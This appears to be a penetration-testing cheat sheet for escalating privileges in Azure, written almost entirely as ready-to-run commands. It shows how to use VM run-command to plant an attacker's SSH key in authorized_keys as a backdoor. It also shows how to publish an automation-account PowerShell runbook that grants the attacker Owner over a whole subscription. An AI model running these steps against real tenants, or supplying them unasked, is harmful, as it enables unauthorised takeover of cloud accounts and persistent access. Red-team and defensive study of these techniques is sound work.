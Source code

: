 ### Privilege escalation via run command permissions on a VM
- If you can run commands on a VM then you can run any commands (Change `RunShellScript` if the machine is Windows)
```
az vm run-command invoke --resource-group VMGROUP -n VMNAME --command-id RunShellScript --scripts "SHELLCOMMAND"
```
- Gain SSH access to the machine
```
ssh-keygen
az vm run-command invoke --resource-group VMGROUP -n VMNAME --command-id RunShellScript --scripts "echo 'ssh-rsa SSHPUBKEY' >> /home/USERNAME/.ssh/authorized_keys"
ssh -i IDENTITY USERNAME@VMIPADDRESS
```
> Run `az network nsg list` to check the security group rules in case SSHing into the VM doesn't work

### Privilege escalation via automation accounts
- If you have contributor access to a resource group then you can escalate your privileges depending on the resources in the group
- List the resources and check their resource groups
```
az resource list
```
- If your resource group has `automationAccounts` access with a contributor role, then you can create runbooks with arbitrary code
- List the existing automation accounts and check if your resource group has any of them
```
az automation account list
```
- Also check the identity that the automation account runs under (hopefully Owner)
```
az role assignment list --assignee OBJECTID --all
```
- List the runbooks under the automation account
```
az automation runbook list --automation-account-name AANAME --resource-group RGNAME
```
- Prepare the following PS script for privilege escalation
```powershell
try{
    "Loggin into Azure..."
    Connect-AzAccount -Identity
}catch{
    Write-Error -Message $_.Exception
    throw $_.Exception
}
New-AzRoleAssignment -ObjectId OBJECTID -RoleDefinitionName Owner -Scope "/subscriptions/SUBSCRIPTIONID"
```
- Create the runbook and execute the PS script
```
az automation runbook create --automation-account-name AANAME --resource-group RGNAME --name RUNBOOKNAME --type "PowerShell" --location "East US"
az automation runbook replace-content --automation-account-name AANAME --resource-group RGNAME --name RUNBOOKNAME --content @./PATH/TO/PSSCRIPT.ps1
az automation runbook publish --automation-account-name AANAME --resource-group RGNAME --name RUNBOOKNAME
az automation runbook show --automation-account-name AANAME --resource-group RGNAME --name RUNBOOKNAME //Confirm runbook was created
```
- Confirm the role was assigned to your object
```
az role assignment list --assignee OBJECTID --all
```
